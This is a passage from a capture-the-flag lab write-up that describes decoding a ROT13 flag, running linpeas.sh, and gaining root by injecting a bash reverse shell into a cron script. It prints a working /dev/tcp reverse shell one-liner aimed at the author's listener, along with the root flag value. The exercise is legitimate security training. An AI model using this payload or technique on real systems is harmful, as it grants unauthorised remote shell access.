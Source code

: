 ![[41.PNG]]

flag was seem to be manipulated ,so let's reverse it:

After I directly paste it on `Google`, I found the result which was `ROT13`:

![[42.PNG]]

We are done with that !  !  !

![[43.PNG]]


It was wrong !

Giving full syntax reveal the correct one:

![[44.PNG]]


Find whether you have `curl` or `wget` so as to make yourself sure that you can download any files through remote host.
SMASH THE `linpeas.sh`:

![[45.PNG]]

This was too weird actually :) Since I have been trying to enhancing my recon skills on specifically on linux. It was too complicated ,but this time I found on my first shot ! ! !

![[46.PNG]]

Run the script `cronjob script` directly:

![[47.PNG]]

It did not work because there was nothing to run inside of the script ,so I directly added such `bash reverse shell` payload into the script.

`sh -i >& /dev/tcp/10.11.69.113/1984 0>&1`

PoC for the `reverse shell`:

![[48.PNG]]
`Reverse Shell` attempted to connect to `MY HOST` and `1984` my port respectively. Let's check whether I was correct or not :)

![[Pasted image 20241103222602.png]]

There was `UNKNOWN` host connected my machine from port `52196`.

Get The Root Flag:

Flag was located as `hidden` file category:

You should use `.` (dot) when you want to interact with any hidden files.

![[49.PNG]]

`cat .root.txt`

`flag{63a9f0ea7bb98050796b649e85481845}`

![[50.PNG]]



May The Pentest Be With You ! ! !
